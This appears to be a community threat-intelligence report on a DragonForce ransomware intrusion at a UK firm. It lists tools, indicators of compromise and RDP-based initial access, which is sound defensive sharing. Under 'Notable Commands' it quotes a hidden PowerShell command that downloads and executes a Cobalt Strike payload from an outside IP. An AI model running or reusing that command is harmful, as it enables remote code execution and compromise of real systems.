

# Community Report Template 023 - DragonForce August 2024

### Contributor Details

- Real Name: N/A
- Online Handle / Links to profiles: Discord ap_2600
- Employer: Private, DFIR role
- Affiliations: Curated Intelligence, Ransom-ISAC

---
### Adversary

- Named adversary: DragonForce

---
### Incident Details

- Time of Incident: August 2024
- Victim Country: UK
- Victim Size: 50-200

---
### Observed Tools
 
| Discovery | RMM Tools | Defense Evasion | Credential Theft | OffSec | Networking | LOLBAS | Exfiltration |
|---|---|---|---|---|---|---|---|
| PingCastle 3.1.0.1 |  | TruesightKiller (W32.Riskware.Killav) | ZeroLogon.exe (CVE-2020-1472) | Cobalt Strike (attempted download) | rPivot (SOCKS4 reverse proxy) | PowerShell (IEX downloadstring) |  |
|  |  | Vulnerable drivers (BYOVD) |  |  |  |  |  |

---
### Indicators of Compromise (IOCs)

```
File IOCs:
- TESTLIVE.EXE                W32.Trojan.Agent.Gen
- 1.EXE                       W32.Trojan.Gen 
- SPOOLSV.EXE                 W32.Trojan.Gen 
- TRUESIGHTKILLER.EXE         W32.Riskware.Killav - EDR/AV killer
- ZEROLOGON.EXE               W32.Malware.Gen   - CVE-2020-1472 exploit
- rpivot-master.zip           SHA256: 68136A00D8AD703FB009E7FEE85FAF5C43AE5294A93D24D47A4485FD8510A553
- PingCastle_3.1.0.1.zip

IP Addresses:
- 192.3.179.159        US - ColoCrossing                  - RDP source
- 185.220.100.240      DE - F3 Netze e.V. (Tor Exit Node) - RDP source
- 23.155.24.4          US - Microtronix-esolutions        - RDP source
- 86.106.20.194        Cobalt Strike Beacon download host

Hostnames:
- DESKTOP-E4F55FE      TA workstation hostname

Notable Commands:
- powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://86[.]106.20.194:80/asa'))"

Initial Access:
- Internet-facing RDP Gateway, brute-force / credential compromise

---
#### Any Related Sources

| Date Published | Report |
|---|---|
| N/A | https://github.com/klsecservices/rpivot |
| N/A | https://www.pingcastle.com/ |

---
#### Summary Diagram


